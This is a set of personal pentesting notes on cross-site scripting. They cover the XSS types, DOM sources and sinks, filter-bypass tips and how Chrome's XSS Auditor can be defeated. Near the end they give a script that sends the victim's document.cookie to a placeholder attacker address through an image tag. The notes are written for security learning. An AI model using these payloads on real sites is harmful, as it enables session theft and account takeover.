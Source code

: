# XSS - Cross-Site Scripting

## Introduction

* An XSS vulnerability lets you inject a malicious script on a website
  * One notable use is to steal cookies
* Where to find XSS :
  * Any input on a website really \(if it's not properly sanitized\)
  * Concatenated http parameter pollution
  * Url of action form : `javascript:alert(1337)`
  * Url : `data:text/html,<script>alert(0)</script>`

## Types

### Reflected

* The input is sent to the server and reflected on the page

### Stored

* Same but the input is also persisted in a db of some sort

### DOM

* The input is directly inserted into the DOM \(without being sent to the server at all\)
* **Sources** \(where the input goes\) :
  * `document.url`
  * `document.referrer`
  * `location`
  * `location.href`
  * `location.search`
  * `location.hash`
  * `location.pathname`
  * etc
* **Sinks** \(where the input ends up\) :
  * `element.innerHTML()`
  * `element.outerHTML()`
  * `eval()`
  * `setTimeout()`
  * `setInterval()`
  * `document.write()`
  * `document.writeln()`
  * etc
* A `<script>alert();</script>` inserted via `inner.html` won't be executed

### Polygots

XSS payloads made from a mixture of encoding/repetition/comments/etc that make it possible to pass filter/black list/etc. They're hard to read.

## Tips

* Use lists with _burp intruder_
* If `<script>` aren't accepted, use events like `onfocus`, `onload`, etc
* `google.com/jsapi?callback=alert` can be used to received a function in a callback
* Check : [Bypassing Sanitizers](https://zcugni.gitbook.io/notes/pen-test/vulnerabilities#bypassing-sanitizers) & the [Owasp Cheat Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)

## XSS Auditor

* Exist in Chrome, not in Firefox and I don't know for the rest
* Broadly speaking, it detects XSS injection by comparing what is given in the url with the scripts of the page
* Because of that, we can inject in the url a script that is in the page to disable it
* Might soon disappear because it create vulnerabilities and gives a false impression of security to devs

## Get a cookie

By example by injecting this script :

```javascript
<script>
    document.write("<img src='...'?c="+document.cookie+"'/>");
</script>
```

The img will be added to the page and request it's source \(the attacker website\) with the cookie attached to it.

## Sources

* [Owasp testing guide v4](https://owasp.org/www-project-web-security-testing-guide/assets/archive/OWASP_Testing_Guide_v4.pdf)
* PwnFunction's [video](https://www.youtube.com/watch?v=EoaDgUgS6QA)
* [LiveOverflow](https://www.youtube.com/channel/UClcE-kVhqyiHCcjYwcpfj9w)'s multiple videos
* Misc research

